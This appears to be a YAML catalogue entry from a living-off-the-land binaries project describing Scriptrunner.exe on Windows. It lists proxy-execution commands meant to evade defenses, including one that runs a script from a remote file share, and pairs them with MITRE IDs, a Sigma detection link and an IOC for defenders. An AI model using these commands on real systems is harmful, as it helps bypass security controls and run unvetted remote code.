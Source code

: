 ```yaml
---
Name: Scriptrunner.exe
Description: Execute binary through proxy binary to evade defensive counter measures
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: Scriptrunner.exe -appvscript calc.exe
    Description: Executes calc.exe
    Usecase: Execute binary through proxy binary to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: ScriptRunner.exe -appvscript "\\fileserver\calc.cmd"
    Description: Executes calc.cmd from remote server
    Usecase: Execute binary through proxy binary from external server to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\scriptrunner.exe
  - Path: C:\Windows\SysWOW64\scriptrunner.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/765acac3742310764495ed5a2006bc0ced5b1a67/rules/windows/process_creation/win_susp_servu_process_pattern.yml
  - IOC: Scriptrunner.exe should not be in use unless App-v is deployed
Resources:
  - Link: https://twitter.com/KyleHanslovan/status/914800377580503040
  - Link: https://twitter.com/NickTyrer/status/914234924655312896
  - Link: https://github.com/MoooKitty/Code-Execution
Acknowledgement:
  - Person: Nick Tyrer
    Handle: '@nicktyrer'
---
```

